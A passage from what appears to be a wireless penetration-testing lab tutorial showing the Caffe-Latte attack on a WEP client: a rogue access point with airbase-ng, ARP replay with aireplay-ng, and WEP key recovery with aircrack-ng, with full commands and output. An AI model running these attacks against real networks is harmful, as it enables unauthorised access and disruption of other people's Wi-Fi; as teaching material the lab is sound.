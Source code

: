When the target station is deauthenticated, we should see changes in our second and third terminal that are indicative of our attack succeeding.

```shell
airbase-ng -c 1 -a B2:D1:AC:E1:21:D1  -e "HackTheWifi" wlan0mon -W 1 -L

09:50:40  Created tap interface at0
09:50:40  Trying to set MTU on at0 to 1500
09:50:40  Trying to set MTU on wlan0mon to 1800
09:50:40  Access Point with BSSID B2:D1:AC:E1:21:D1 started.
09:50:53  Starting Caffe-Latte attack against B6:1F:98:CB:10:78 at 100 pps.
09:51:23  Client B6:1F:98:CB:10:78 associated (WEP) to ESSID: "HackTheWifi"
09:51:35  Client B6:1F:98:CB:10:78 associated (WEP) to ESSID: "HackTheWifi"
09:51:35  Client B6:1F:98:CB:10:78 associated (WEP) to ESSID: "HackTheWifi"
09:51:35  Client B6:1F:98:CB:10:78 associated (WEP) to ESSID: "HackTheWifi"
09:51:55  Client B6:1F:98:CB:10:78 associated (WEP) to ESSID: "HackTheWifi"

```

```shell
aireplay-ng -6 -D -b B2:D1:AC:E1:21:D1 -h B6:1F:98:CB:10:78 wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
        ifconfig wlan0mon hw ether B6:1F:98:CB:10:78
Saving ARP requests in replay_arp-0806-094956.cap
You should also start airodump-ng to capture replies.
Notice: got a deauth/disassoc packet. Is the source MAC associated ?
Notice: got a deauth/disassoc packet. Is the source MAC associated ?
Read 171321 packets (9269 ARPs, 0 ACKs), sent 84553 packets...(479 pps)

```

Once we have generated enough packets, we can use `aircrack-ng` to crack the WEP key using the captured initialization vectors (IVs) stored in the WEP-01.cap file.

```shell
aircrack-ng -b B2:D1:AC:E1:21:D1 WEP-01.cap

Reading packets, please wait...
Opening WEP-01.cap
Read 195576 packets.

1 potential targets
Got 97822 out of 95000 IVs
Starting PTW attack with 97822 ivs.
                     KEY FOUND! [ 33:44:55:22:11 ]
Attack Decrypted correctly: 100% captured ivs.

```

* * *

While executing the Cafe Latte attack, if no ARP packets are generated, it is recommended to rerun the deauthentication attack using "aireplay-ng" then immediately execute the "airbase-ng" command.
